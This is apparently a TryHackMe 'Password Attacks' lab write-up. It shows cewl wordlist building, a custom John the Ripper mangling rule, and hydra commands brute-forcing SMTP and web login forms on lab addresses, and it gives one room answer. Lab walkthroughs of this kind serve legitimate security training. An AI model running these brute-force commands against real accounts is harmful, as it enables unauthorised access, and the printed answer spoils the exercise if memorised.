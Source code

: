# Password Attacks

**Room Link:** [https://tryhackme.com/room/passwordattacks](https://tryhackme.com/room/passwordattacks)



## Deploy the VM

Creating a wordlist from this site as recommend in the room.

**Kali**

```
cewl -m 8 -w clinic.lst https://clinic.thmredteam.com/  
```

## Offline Attacks

**In this question, you need to generate a rule-based dictionary from the wordlist clinic.lst in the previous task. email: pittman@clinic.thmredteam.com against 10.10.131.68:25 (SMTP).**

**What is the password? Note that the password format is as follows: \[symbol]\[dictionary word]\[0-9]\[0-9].**

#### **john.conf**

```
[List.Rules:THM-Password-Attacks]
Az"[0-9][0-9]" ^[!@#$]
```

**Kali**

```
john --wordlist=clinic.lst --rules=THM-Password-Attacks --stdout > dict.lst
hydra -l pittman@clinic.thmredteam.com -P dict.lst smtp://$VICTIM:25 -v
```

Answer is !multidisciplinary00

**Perform a brute-forcing attack against the phillips account for the login page at http://10.10.130.199/login-get using hydra? What is the flag?**

<figure><img src="../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>





**Kali**

```
hydra -l phillips -P ../dict.lst 10.10.130.199 http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f
```



<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>



\
**Perform a rule-based password attack to gain access to the burgess account. Find the flag at the following website: http://10.10.130.199/login-post/. What is the flag?**

**Note: use the clinic.lst dictionary in generating and expanding the wordlist!**



**Kali**

```
john --wordlist=clinic.lst --rules=Single-Extra --stdout > dict2.lst

./hydra -l burgess -P dict2.lst 10.10.130.199 http-post-form "/login-post/index.php:username=^USER^&password=^PASS^:S=logout.php" -f 
```

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>
